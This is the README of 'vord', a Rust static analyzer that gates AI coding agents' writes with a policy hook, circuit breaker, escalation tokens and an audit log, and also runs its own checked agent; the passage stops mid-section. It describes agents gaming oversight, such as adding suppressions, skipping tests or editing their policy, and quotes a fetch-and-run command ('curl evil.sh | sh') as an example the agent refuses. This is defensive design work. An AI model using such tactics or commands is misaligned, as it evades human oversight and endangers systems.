


# vord

[](https://github.com/pmaojo/vord/blob/main/.vord-health.json)



A static analysis platform in Rust — a guardrail that judges an AI agent's
write *before* it reaches disk, and a coding agent of its own that is judged
by that same guardrail. One static binary, 24 languages, no JVM, no server
required.

## Install

```sh
curl -fsSL https://raw.githubusercontent.com/pmaojo/vord/main/scripts/install.sh | sh
```

<details>
<summary>Other channels</summary>

```sh
npx vord scan .                          # npm, no install step
brew install pmaojo/tap/vord             # Homebrew (macOS/Linux)
cargo install vord-cli                   # crates.io
docker run --rm -v "$PWD:/src" ghcr.io/pmaojo/vord scan .
```

Or download a binary for your platform directly from
[Releases](https://github.com/pmaojo/vord/releases/latest) — `vord-<target>`
for the CLI, `vord-lsp-<target>` for the language server. Every asset ships a
`.sha256` beside it, which the install script and the Homebrew formula both
verify.

</details>

Then:

```sh
vord scan .              # analyze this repository
vord hook install        # gate an AI agent's writes before they land
vord init                # add the CI workflow
vord                     # interactive wizard (in a TTY)
```

### In CI

```yaml
- uses: pmaojo/vord@v0                   # GitHub Actions
  with:
    enforce-gate: 'true'
```

Ready-made pipelines for other platforms live in
[`ci-templates/`](ci-templates/) (GitHub Actions, GitLab CI).

### As a Claude Code plugin

The guardrail installs as a plugin whose hooks call the binary:

```
/plugin marketplace add pmaojo/vord
/plugin install vord-guardrail
```

The plugin needs `vord` on your PATH (the install script above puts it there).
Note that `vord hook install` remains the stronger option for a team: it writes
`.claude/settings.json` and `vord-policy.toml` **into the repository**, so the
policy is versioned and reviewed in the same pull request as the code it
governs, on every teammate's machine and in CI. A plugin lives in one user's
configuration, where turning it off leaves no trace in a diff.

### As an [Agent Plugins](https://github.com/agentplugins/agent-plugins-spec) package

Both this repository root and `integrations/claude-code-plugin/` are also
plugins under the [Agent Plugins Specification](https://agent-plugins.org)
v1.0.0: a root `plugin.json` manifest, a `skills/` directory (the guardrail
and general static-analysis capabilities as `SKILL.md` files), and an
`mcp.json` exposing `vord mcp` — vord's own stdio MCP server — as the
`vord` server. Any spec-conformant client can discover and load these
without Claude Code-specific knowledge. Claude Code's own loading
mechanism (`.claude-plugin/plugin.json`, `hooks/hooks.json`) is unchanged
and lives alongside these files; it's referenced for spec-aware tooling
under `extensions.com.anthropic.claude-code` in `plugin.json`, since
Claude Code requires those files at their current, fixed locations.

`skills/old-coder/` is a third skill in that directory, vendored (MIT) from
[AmazingAng/old-coder](https://github.com/AmazingAng/old-coder): an
evidence-first development loop (SPEC → RED → GREEN → REFACTOR → GAUNTLET →
EVIDENCE) for tasks where the human wants to approve a test plan and read
an evidence report instead of the code itself. Its GAUNTLET step composes
with vord's own gate — see "Using this with vord" at the end of that
skill's `SKILL.md`.

## Topology

The directory structure *is* the architecture — nested workspace globs define the boundaries:

```
vord/
├── core/                       # PURE LOGIC — no I/O, no async runtime, no serde
│   ├── ast/                    # vord-ast: neutral AST, LanguageIdentifier, SourceFile
│   ├── profiles/               # vord-profiles: RuleId, Severity, QualityProfile, QualityGate, Rating
│   ├── rules-engine/           # vord-rules-engine: ports (traits), Rule, CrossFileRule, AnalyzerService
│   ├── taint/                  # vord-taint: intra-file + cross-file inter-procedural taint analysis
│   ├── symbols/                # vord-symbols: per-language class/method extraction (SOLID/DDD rules read this)
│   ├── import-graph/           # vord-import-graph: components, cycles, Martin metrics, hexagonal layering
│   ├── agent-policy/           # vord-agent-policy: Agent Permission Policy — may this agent write land?
│   ├── agent/                  # vord-agent: the agent runtime — session loop, write gate, analyzer-as-done
│   ├── swarm/                  # vord-swarm: worktree/handoff/topology computation for multi-agent runs
│   ├── triage/                 # vord-triage: Issue Triage Factory label state machine (reproduce → diagnose → fix)
│   ├── remediation/            # vord-remediation: generate → sandbox → re-scan → verdict
│   ├── crap/                   # vord-crap: risk = complexity² × untestedness³ + complexity
│   ├── flow-graph/             # vord-flow-graph: same-file function call graph over the neutral AST
│   ├── flow-risk/              # vord-flow-risk: untested-sequence detection + [[flows]] evaluation
│   └── duplication/            # vord-cpd: copy-paste detection (rolling-window hashes)
├── infra/                      # OUTBOUND ADAPTERS
│   ├── memory/                 # in-memory storage/metrics (CLI, tests)
│   ├── fs/                     # gitignore-aware source loader, coverage/mutation parsers, caches, worktrees
│   ├── llm/                    # Anthropic + OpenAI-compatible chat providers, for `agent`/`fix`
│   ├── pdf/                    # OWASP/CWE/PCI DSS compliance report generation (PDF + CSV)
│   └── github/, gitlab/, bitbucket/, azure/   # ALM adapters (PR feedback, issue sync)
├── parsers/                    # INBOUND ADAPTERS (tree-sitter → neutral AST) — 24 languages
│   ├── treesitter-adapter/     # shared `declare_parser!` macro every language crate below uses
│   ├── treesitter-typescript/
│   ├── treesitter-rust/
│   ├── treesitter-python/
│   ├── treesitter-go/
│   └── ...                     # 20 more: c, cpp, csharp, java, kotlin, ruby, php, swift, scala, ...
├── rulesets/                   # PLUGINS implementing the Rule trait — 161 rules, 16 crates
│   ├── owasp/                  # secrets, eval/exec, command-exec hotspots, taint injection (incl. cross-file)
│   ├── code-smells/            # SOLID (see below), complexity (cyclomatic + cognitive), TODO/FIXME, long functions
│   ├── architecture/           # hexagonal layering, framework purity, import cycles, Martin component metrics
│   ├── ddd/                    # tactical DDD: anemic model, entity setters, primitive obsession, aggregate leaks
│   ├── rust/                   # Rust-only: undocumented unsafe, mem::transmute/forget, process::exit/abort
│   ├── wordpress/              # WPCS-shaped: escaping, sanitization, nonces, prepared $wpdb, i18n, deprecated APIs
│   └── ...                     # 10 more: python, go, typescript, react, reactive, iac, a11y, ai-agent, php, secrets
└── bin/                        # COMPOSITION ROOTS (testing dead-zones)
    ├── cli/                    # vord scan/hook/agent/swarm/triage/fix — local end-to-end analysis
    └── lsp/                    # editor-facing language server
```

The hosted API server, background worker, Postgres storage adapter, and web frontend live in a separate private repository (`vord-cloud`) and are not part of this open-source core.

Dependency direction is enforced by Cargo: `bin → {infra, parsers, rulesets} → core`. The core defines **ports** (`AstParser`, `IssueStorage`, `IssueReader`, `IssueFacetReader`, `IssueWorkflow`, `HotspotStorage`, `MetricsTracker`, `JobQueue`, `AnalysisCache`); adapters implement them (DIP). The load-bearing identity types (`RuleId`, `Severity`, `LanguageIdentifier`) are validated newtypes with fallible constructors, never deserialized directly off an untrusted edge — HTTP, tree-sitter and config-file adapters own their own DTOs and translate in. Adding a language or ruleset means a new crate registered at a composition root; the engine never changes (OCP).

Proof of purity: `cargo tree -p vord-rules-engine` — only core crates, `serde` and `thiserror`. No I/O crate, no async runtime, no tree-sitter.



No arrow ever points into `core/`. The core defines ports; everything else implements or consumes them.

## Quickstart (from source)

Every command below works against an installed binary too — replace
`cargo run -p vord-cli --` with `vord`.

```sh
cargo run -p vord-cli                  # no args, in a terminal: interactive wizard
                                        # (scope: whole repo / branch diff / path — then
                                        # agent prompt, guided remediation, or CI install)
cargo test --workspace                 # unit (fakes), fixtures, e2e — ~1700 tests
cargo run -p vord-cli -- scan fixtures # real scan: a small multi-language fixture set, rules + taint + CPD + complexity
cargo run -p vord-cli -- scan fixtures --format json
cargo run -p vord-cli -- scan fixtures --fail-on critical      # exit 2 on severity breach
cargo run -p vord-cli -- scan fixtures --enforce-gate          # exit 3 on quality gate failure
cargo run -p vord-cli -- scan fixtures --coverage report.lcov  # ingest LCOV coverage
cargo run -p vord-cli -- scan fixtures --cobertura report.xml # ingest Cobertura XML coverage
cargo run -p vord-cli -- scan fixtures --jacoco report.xml    # ingest JaCoCo XML coverage
cargo run -p vord-cli -- scan fixtures --llvm-cov report.json # ingest llvm-cov JSON coverage
cargo run -p vord-cli -- scan fixtures --coverage-report coverage-final.json --coverage-format istanbul
cargo run -p vord-cli -- scan fixtures --junit report.xml     # ingest JUnit test report
cargo run -p vord-cli -- scan fixtures --compliance-pdf report.pdf --compliance-csv report.csv  # OWASP/CWE/PCI DSS evidence report
cargo run -p vord-cli -- scan monorepo-root --monorepo         # discover + scan every vord.toml-configured project under a root
cargo run -p vord-cli -- scan fixtures --mutation-report mutation.json  # ingest a Stryker-schema mutation report
cargo run -p vord-cli -- flow add --name checkout --step src/checkout.ts:startCheckout --step src/payment.ts:chargeCard  # register a flow (see "Flow coverage")
cargo run -p vord-cli -- scan fixtures --sarif ruff.sarif      # import another analyzer's findings
cargo run -p vord-cli -- scan fixtures --sarif ruff.sarif --sarif eslint.sarif  # repeatable
cargo run -p vord-cli -- arch                                  # component architecture: text summary
cargo run -p vord-cli -- arch --format mermaid                 # Mermaid flowchart of the component graph
cargo run -p vord-cli -- arch --html arch.html                 # self-contained interactive viewer (open in a browser)
cargo run -p vord-cli -- init --yes                            # write .github/workflows/vord.yml
cargo run -p vord-cli -- hook install                          # gate an AI agent's writes (see below)
```

Example output:

```
BLOCKER  owasp:injection  vulnerable.ts:9:1  user input from `process.argv` reaches sink `eval`:
         `input` tainted by `process.argv`; `payload` tainted via `input`; `payload` reaches sink `eval`
```

## No server required

Everything above — `scan`, `hook`, `agent`, `swarm`, `fix` — runs standalone,
against the local filesystem, with no daemon, no database and no network
call unless you configure an LLM provider for `agent`/`fix`. A hosted layer
(API server, worker, Postgres-backed issue storage, web frontend) exists as
`vord-cloud`, a separate private repository — it adds persistence, history
and multi-user collaboration on top of this engine, and is never a gatekeeper
for anything in this repo.

## Agentic guardrail (Claude Code, Codex, pre-commit)

Every other entry point above answers *"what is wrong with this code?"* after
the fact. `vord hook` answers *"may this write happen?"* — inside an
autonomous agent's edit loop, before the bytes reach disk.

```sh
cargo run -p vord-cli -- hook install        # write vord-policy.toml + .claude/settings.json
cargo run -p vord-cli -- hook check file.py  # judge one file: exit 0 / 2 (denied) / 1 (vord failed)
cargo run -p vord-cli -- hook check file.py --format json  # structured verdict on stdout, for tooling
cargo run -p vord-cli -- hook reset-circuit-breaker        # clear a tripped breaker after review
cargo run -p vord-cli -- hook approve <token>               # authorize one escalated write after review
cargo run -p vord-cli -- hook reset-loop-guard              # clear a tripped loop alarm after review
cargo run -p vord-cli -- hook audit --limit 20               # tail the guardrail's decision log
```

`hook install` writes the hook wiring directly into the current repository.
[`integrations/claude-code-plugin`](integrations/claude-code-plugin) packages
the same wiring as an installable Claude Code plugin instead — this
repository doubles as its own marketplace (`/plugin marketplace add
pmaojo/vord`, then `/plugin install vord-guardrail@vord`) for anyone who
wants the hook without running the installer by hand. Either path still
needs the `vord` binary on `PATH` (`cargo install --path bin/cli`, or a
release artifact).

Once installed, an agent that tries to write a shell-injection sink gets its
own tool call denied and the reason fed straight back into its context:

```
vord blocked this write to `deploy.py`.

  1. python:subprocess-shell-true at line 3 — subprocess call with shell=True is
     vulnerable to shell injection if the command is ever influenced by external input
     [hard-blocked for agents]

This is an Agent Permission Policy block from vord-policy.toml, not a style
preference. The file was NOT written. Rewrite the code so these findings do not
occur, then write it again.
```

The file never existed — the content judged was reconstructed from the tool
call's own arguments. Measured cost: **~7ms p50 per write**, process start
included (the circuit breaker, loop alarm and audit log below each add one
small file read/write per invocation on top of that, not yet independently
re-measured).

Every denial also carries a machine-readable form — the same violations as a
JSON object naming the exact rule, line and the deterministic condition that
must hold for it to clear — appended after the prose so an agent that wants
exact parsing does not have to pattern-match text. `hook check --format json`
speaks nothing but that JSON on stdout, for callers that never want prose at
all.

**Provenance: a stricter gate for AI-touched paths.** SonarQube's "AI Code
Assurance" flags a *project* as AI-generated by hand and applies a dedicated
quality gate to it. `vord hook` does the same thing automatically and at file
granularity: every path a write has ever targeted (denied or not — an
attempted edit is itself a signal an agent is steering this file) is recorded
in `.vord-provenance.json` (gitignored). The next write to that same path is
judged against `[agent.ai_touched]`'s severity threshold instead of the base
`block_at_or_above` — stricter if configured, identical otherwise. Only the
threshold moves: `blocking_rules`/`escalate_rules`/`advisory_rules` apply the
same regardless of provenance, since a categorical ban is exactly as
dangerous whether or not the file has agent history. No commit-trailer or
co-authorship claim is involved anywhere in this — deliberately: that
approach (`Co-authored-by: <model>`) is both contested (the U.S. Copyright
Office's guidance is not to list an AI as an author) and orthogonal to what
this guardrail needs, which is "should this path be judged more strictly",
not "who gets credit".

**Gherkin evidence gate.** The mechanical version of Uncle Bob Martin's
"surround the agents with constraints — unit tests, gherkin tests, QA
procedures" gauntlet: `[[gherkin_required]]` names glob patterns an agent may
only write to if at least one Gherkin scenario somewhere in the repository's
`.feature` files is tagged `@covers(<glob matching this path>)` — feature-
level or scenario-level, either counts. `vord hook` scans `.feature` files for
that tag (no Gherkin execution, no cucumber-rust dependency — just the tag
lines, which are mechanically easy to find without a full parser) and denies
a matching write with no AST finding needed, the same "deny on path alone"
shape `protected_path` already uses. Off by default and commented out in the
installed template, unlike `protected_path`: turning it on immediately denies
every matching write until real `.feature` coverage exists, so it is opt-in
per repository once that coverage is ready, not a default anyone gets for
free. The scan itself is skipped entirely (no filesystem walk at all) when no
`[[gherkin_required]]` glob is configured, keeping the common case as fast as
before this landed.

**Circuit breaker.** An agent that cannot resolve a finding — a false
positive, or a vulnerability it does not know how to fix — will otherwise
retry the same write indefinitely, burning tokens against a wall. `vord hook`
tracks how many times in a row the *same rule* has denied a write; the third
consecutive denial trips a breaker, and the denial text changes from "rewrite
and try again" to an explicit stop instruction: revert the change and get a
human to look at it. The count is per rule, persists across the separate
process invocations a hook loop makes (`.vord-circuit-breaker.json` at the
repository root, gitignored), and resets the moment that rule stops being
denied — whether because it was fixed or because the agent moved on to
something else. `vord hook reset-circuit-breaker` clears it after a human has
reviewed the stuck finding.

**Supply-chain: new dependencies.** No `Rule` in `core/rules-engine` can see
"this write adds a dependency that was not here before" — that trait analyses
one file's current content, with no concept of a prior version. `vord hook`
diffs `package.json`/`requirements.txt` against the on-disk version at
`PreToolUse` time and turns any newly added dependency into an ordinary
`supply-chain:new-dependency` finding, which flows through the same
`blocking_rules`/`advisory_rules`/`block_at_or_above` policy as any AST
finding. It reports nothing by default (most new dependencies are
legitimate) — opt in per repository via `vord-policy.toml`'s
`advisory_rules` or `blocking_rules`. This is intentionally *not* branded as
a sandbox: a WASM/WASI sandbox isolates code compiled to WASM, and cannot
meaningfully "sandbox-test" an arbitrary already-compiled shell command or
native npm/pip package before it runs, so this guardrail instead surfaces
the dependency for human review rather than claiming to have executed it
safely.

**Gate-gaming detection: suppressions and skipped tests.** An agent
optimising for "the gate is green" has two strategies available: satisfy the
gate, or quietly narrow what it can see. The second is both cheaper and,
without this, invisible. Same before/after shape as the supply-chain guard
above (no `Rule` sees a diff, only a file's current content) and the same
two-finding split it produces: `ai:suppression-added` fires when a write
introduces a new `#[allow(...)]`/`eslint-disable`/`noqa`/`type: ignore`/
`nolint`/`pragma: no cover`/`istanbul ignore` that was not on that line
before, and `ai:test-skipped` fires when a write newly marks a test
`#[ignore]`/`@pytest.mark.skip`/`.skip(`/`xit(`/`xdescribe(`. Both report
nothing by default (a suppression is sometimes the right call) — opt in via
`advisory_rules`/`blocking_rules` like any other rule id. The sharpest case
this closes: `hook install`'s template lists `vord-policy.toml` and
`vord.toml` themselves as `[[protected_path]]` entries, so an agent denied by
its own policy cannot resolve the denial by editing the policy — a referee
whose rulebook the players can edit is not a referee.

**Escalation: block pending human approval.** `blocking_rules` and
`block_at_or_above` are binary — always denied, no exceptions. `escalate_rules`
is the third tier for findings that are too risky to let an agent resolve
unsupervised but are not *always* wrong: the write is blocked exactly like a
denial, but the denial text carries a token
(`vord hook approve <token>`) a human can redeem after reviewing the change.
Approval is single-use and write-specific — it authorizes one byte-identical
retry, computed from the path and the exact findings that escalated, never a
standing exemption for the rule. A rule also listed in `blocking_rules` stays
unconditionally denied; the hard-blocked list has no override, by design.

**Loop alarm.** The circuit breaker (above) only watches denials of the same
*rule*; it says nothing about an agent that keeps proposing the exact same
byte-identical write regardless of outcome — including a clean one, which is
just as strong a "the agent is stuck" signal. `vord hook` separately tracks
the last write's `(path, content)` signature; the third identical write in a
row adds a `LOOP ALARM` line to the denial/advisory text telling the agent to
stop retrying and try something materially different. State lives in
`.vord-loop-guard.json` (gitignored); `vord hook reset-loop-guard` clears it.

**Audit log.** Every non-silent verdict — deny, advise, an unresolved
escalation, an approval being consumed — is appended as one JSON line to
`.vord-audit.jsonl` (gitignored): timestamp, event, path, outcome, and the
same violation detail as the machine-readable block above. A clean write
leaves no trace, the same signal-to-noise judgement the denial text itself
makes. `vord hook audit` tails it (`--format json` for the raw entries).

**Why a hook and not an MCP tool.** An MCP tool or an LSP is *consulted*: the
agent chooses whether to ask, and an agent optimising for task completion
learns not to ask. A host hook is *invoked* by the runtime on every matching
tool call and cannot be routed around. That is the difference between a
guardrail and a linter the model may consult — and it is why vord does not
ship an MCP server as an alternative enforcement path. The one place MCP
could add value is *planning-time*, before the agent has even proposed an
edit — a read-only resource an agent's system prompt ingests up front (the
active policy, the architecture blueprint) — but that is a complement to the
hook, never a substitute for it: anything that must actually stop a write
stays on `PreToolUse`. See [DEVLOG.md](DEVLOG.md) Phase 6c for how the
guardrail was built, and [ROADMAP.md](ROADMAP.md) for where it goes next.

### The Agent Permission Policy

`vord-policy.toml` is not the quality gate. The gate asks "is this project
releasable?" over a whole analysis; the policy asks "may this one write land?"
over a single proposed edit — and the two disagree on purpose:

```toml
[agent]
block_at_or_above = "critical"

# Rules an agent may never introduce, whatever severity the profile gives them.
# An agent writing a shell sink is categorically riskier than a human doing it
# under review, even when the rule only scores as a warning.
blocking_rules = ["ai:llm-output-injection", "owasp:command-execution", "owasp:eval-usage"]

advisory_rules = []   # report, never deny — the escape hatch for a noisy rule
escalate_rules = []   # deny until a human runs `vord hook approve <token>`

[[protected_path]]    # denied on path alone, no finding required
pattern = ".github/workflows/**"
reason = "CI definitions gate every other control; changes need human review."
```

### Host support

| Host | Integration | Can it deny? |
|---|---|---|
| **Claude Code** | `PreToolUse` on `Edit\|Write` | **Yes** — the write is prevented |
| **Claude Code** | `PostToolUse` on `Edit\|Write` | No — the write landed; feeds the finding back as context |
| **Codex CLI** | `vord hook check` | Its tool hooks fire for shell commands only, not file writes |
| **pre-commit / CI** | `vord hook check` | Exit 2 fails the commit or the job |

The two Claude Code hook points are asymmetric by design: **`PreToolUse`
prevents, `PostToolUse` teaches.** The wording the agent receives differs
accordingly — a model told "blocked" about a file that was in fact written
will move on and leave the finding in the tree.

**Failing open.** A malformed payload, an unreadable file or a policy that
does not parse lets the write proceed and reports on stderr. A guardrail that
wedges the agent loop on its own bug gets uninstalled within a day, and an
uninstalled guardrail blocks nothing. `hook check` is the exception: its
non-interactive callers can tell exit 1 (vord broke) from exit 2 (policy
denied) and decide for themselves.

## `vord agent` — the runtime that cannot approve its own work

Every coding agent on the market grades its own homework: the model proposes
an edit, the model decides the edit is good, and the verification is a second
prompt to the same weights. vord is the one project where the judge already
exists as a separate, deterministic, 150-rule artifact that predates the
writer — so `vord agent` is built on two constraints it cannot talk its way
out of.

```sh
export ANTHROPIC_API_KEY=...            # or VORD_LLM_* for any OpenAI-compatible endpoint
vord agent run --task "remove the shell injection in scripts/deploy.py"
vord agent run --task "fix it" --rule python:subprocess-shell-true --scope scripts
vord agent watch-pr --pr 42             # wait out the late review/CI window on a PR
```

**1. No edit reaches disk without passing the policy.** Not a second
implementation of the guardrail — the same `hook::judge` a third-party agent's
write goes through, on the proposed content, in-process, before the `write`
syscall. Same `vord-policy.toml`, same protected paths, same Gherkin evidence
requirement, same single-use approvals, same circuit breaker, same
`.vord-audit.jsonl`. A denial comes back to the model as a tool error naming
the rule and the line; the file on disk never changed.

**2. No task is complete without the analyzer agreeing.** When the model stops
calling tools, the analyzer re-runs over the scope and compares against the
baseline taken before the run started. If the target rule still fires, or a
finding appeared that was not there before, the objection becomes the next
user turn and the session continues. There is no self-assessment turn.

The tool set is closed — `read`, `write`, `edit`, `search`, `run`, `scan` —
and there is no shell. `run` executes one allow-listed program: no pipes, no
chaining, no redirection, so `cargo test; curl evil.sh | sh` is refused rather
than half-checked. Paths are resolved inside the repository root, and a
command that outlives its timeout is killed.

Six terminal states, six exit codes, because a supervisor should never have to
parse prose and "we could not check" must never read as success:

| Exit | Outcome |
|---|---|
| `0` | Complete — the analyzer agrees |
| `1` | vord, the model or the workspace failed |
| `3` | Incomplete — the analyzer still disagrees |
| `4` | Budget exhausted (turns or tokens) |
| `5` | Circuit breaker tripped — one rule denied the agent three times running |
| `6` | Looping — identical bytes written to the same path three times running |

`watch-pr` handles the part A3 cannot: a pull request that looked clean the
instant it was pushed is not a pull request that is finished. It polls with
backoff, collects one review batch as one batch, remembers what it already
triaged, and reports **quiet**, **new feedback**, **bot all-clear** or
**inconclusive** — never conflating "we looked and saw nothing" with "we could
not look", or with "CI has not finished".

Runtime limits live in `vord.toml`; what the agent may *do* stays in
`vord-policy.toml`, where a reviewer owns it.

```toml
[agent]
max_turns = 40
max_tokens = 500000
max_rejections = 3
allowed_commands = ["cargo", "npm", "pytest"]   # replaces the built-in list
command_timeout_secs = 300
```

## `vord swarm` — multiple agents, isolated and scoped

One `vord agent` session is one role doing one task. `vord swarm` drives
several roles — architect, coder, cleaner, QA, whatever `[[swarm.role]]`
declares — through their own tasks in sequence, each isolated from the
others and each narrower in what it's allowed to touch than the base policy:

```sh
vord swarm roles                              # list declared roles, resolved worktree + policy scope
vord swarm worktree-create --role coder       # git worktree add, idempotent
vord swarm run --task "add input validation to the signup form"
```

Three ideas, adapted from Uncle Bob's
[swarm-forge](https://github.com/unclebob/swarm-forge) protocol (not its
tmux-based implementation — vord solves the same coordination problem
in-process):

- **One `git worktree` per agent.** Concurrent roles never contend on the
  index; each works in its own checkout on its own branch
  (`vord/swarm/<role>` by default).
- **Durable, validated handoffs**, not direct messaging. A role finishing its
  turn writes a handoff to `.vord/handoffs/outbox`; `vord swarm
  handoff-deliver` moves it into the next role's inbox, quarantining
  anything malformed into `failed/` instead of losing or corrupting it. A
  crashed agent loses nothing.
- **Roles get policy scopes, not just prompts.** swarm-forge enforces
  discipline through workflow structure; vord has actual access controls and
  uses them. `[[swarm.role]]` can add its own `protected_path`/
  `blocking_rules`/`escalate_rules` on top of the base policy — the cleaner
  role can be denied write access to `.github/workflows/**`, the coder
  denied write access to the ruleset that judges it, QA given `scan` and no
  write at all. A role's scope only ever *adds* restriction; there is no way
  for a role config to widen what the base policy already forbids.

`vord swarm run` resolves `[swarm]`'s `topology = "two-pack"` (coder,
reviewer) or `"four-pack"` (architect, coder, cleaner, qa) preset — or an
explicit `pipeline = [...]` role sequence — into an ordered list, then runs
each role's own `vord agent` turn against its own worktree and scoped
policy, folding in whatever the previous role handed off. It stops at the
first role whose run doesn't complete, exiting with that role's own exit
code (see the table above) rather than compounding a failed run's baggage
forward.

```toml
[swarm]
topology = "two-pack"
worktree_root = ".vord/worktrees"   # default

[[swarm.role]]
name = "cleaner"

[[swarm.role.protected_paths]]
pattern = ".github/workflows/**"
reason = "CI definitions need human review."
```

## `vord triage` — the Issue Triage Factory

Inspired by Cloudflare/Astro's `triagebot-action`: drive a GitHub issue
through reproduce → diagnose → fix instead of leaving it for a human to
pick up. Where it differs is the same place `vord agent` differs from an
ordinary coding agent — nothing advances on a model's opinion of its own
work. `vord_triage::TriageEvent` only ever carries facts a runtime
observed (a regression test's exit code, a re-scan's verdict), and
`core/agent/src/prompt.rs`'s rule that the model never decides completion
applies here too.

```sh
vord triage advance --issue 42                                        # advance a wait state
vord triage advance --issue 42 --repro-command "npm test -- -t bug"   # advance triage:reproducing or triage:fixing
```

Each call advances the issue's `triage:*` label by exactly one step —
re-run it for the next step, the same way the label state machine
underneath is meant to be driven (from a GitHub Action on a label change,
or by hand). Needs `GITHUB_TOKEN`/`GITHUB_REPOSITORY` (same as any other
`vord` GitHub integration) and `[[swarm.role]]` entries named
`reproducer`, `diagnostician` and `fixer` so each role has a worktree to
run in.

All three worker stages are wired: Reproduce runs `--repro-command`
directly (no LLM involved) and classifies its exit code; Diagnose and Fix
each run one live `vord agent` turn, verified without trusting the
model's own account of what it did — Diagnose's transition never depends
on the agent's output (`grounded_in_finding` is informational), and Fix
is accepted only if the agent's own session completed regression-free
*and* a re-run of `--repro-command` now exits `0`. What's left: opening a
pull request from a verified fix. Full design and status:
`docs/design/issue-triage-factory.md`.

## `vord kickoff` — AI-driven project templates

`vord kickoff` scaffolds new project templates that are pre-configured with rules to enforce clean architecture and best practices from day one. Instead of fighting technical debt later, the templates ship with a `vord.toml` configuration that holds AI agents and human developers to strict architectural boundaries.

```sh
vord kickoff --template react-bulletproof .
vord kickoff --template rust-clean .
vord kickoff --template fullstack-hexagonal .
```

Supported templates:
- `react-bulletproof` (or `react`): Enforces feature-directory isolation and prohibits default exports.
- `rust-clean` (or `rust`): A clean domain core architecture, restricting `unwrap`/`expect` and panic macros.
- `python-clean` (or `python`): Enforces modern type hints and strict resource management.
- `typescript-clean` (or `ts`): Restricts wildcard re-exports and enforces naming conventions.
- `fullstack-hexagonal` (or `hexagonal`): A complete backend/frontend setup with `architecture.yaml` and blocking rules for hexagonal layer violations and circular dependencies.

## `vord fix` — automated AI remediation

`vord fix` takes an issue ID and asks an LLM (via an Anthropic or OpenAI-compatible endpoint) to write a patch for it. The engine verifies the fix in a sandbox, rejecting patches that break tests or fail to resolve the issue.

```sh
vord fix --issue python:unclosed-open-file src/scripts.py
vord fix --issue rust:disallow-unwrap-expect --model gpt-4o src/main.rs
```

## `vord mcp` — Model Context Protocol

`vord mcp` starts a standard JSON-RPC stdio server implementing the [Model Context Protocol (MCP)](https://modelcontextprotocol.io/). This allows AI assistants like Claude Desktop or Cursor to query the static analysis engine directly, asking about component boundaries, dependency cycles, or requesting a local scan without leaving the chat interface.

```sh
# Usually configured in the AI assistant's settings, e.g.:
# "vord": { "command": "vord", "args": ["mcp"] }
vord mcp
```

## Importing another analyzer's findings (SARIF)

`--sarif` merges a SARIF 2.x report into the scan. Every mainstream analyzer
emits it — ruff, ESLint, clippy, gosec, bandit, semgrep, CodeQL — so one
importer buys their whole rule catalogs without vord reimplementing a single
check. Imported findings are ordinary issues from that point on: they render
in the output, count toward the severity measures, and can fail the quality
gate.

```bash
ruff check --output-format sarif . > ruff.sarif
cargo run -p vord-cli -- scan . --sarif ruff.sarif --enforce-gate
```

- **Rule ids** are namespaced by the emitting tool (`ruff:e501`,
  `eslint:no-eval`, `codeql:js-sql-injection`) so imported rules stay
  visibly distinct from vord's own.
- **Severity**: `properties.security-severity` (CVSS 0–10) wins when
  present; otherwise the SARIF `level` maps conservatively — `error` →
  `major`, not `critical`. A linter's "error" is its own default failure
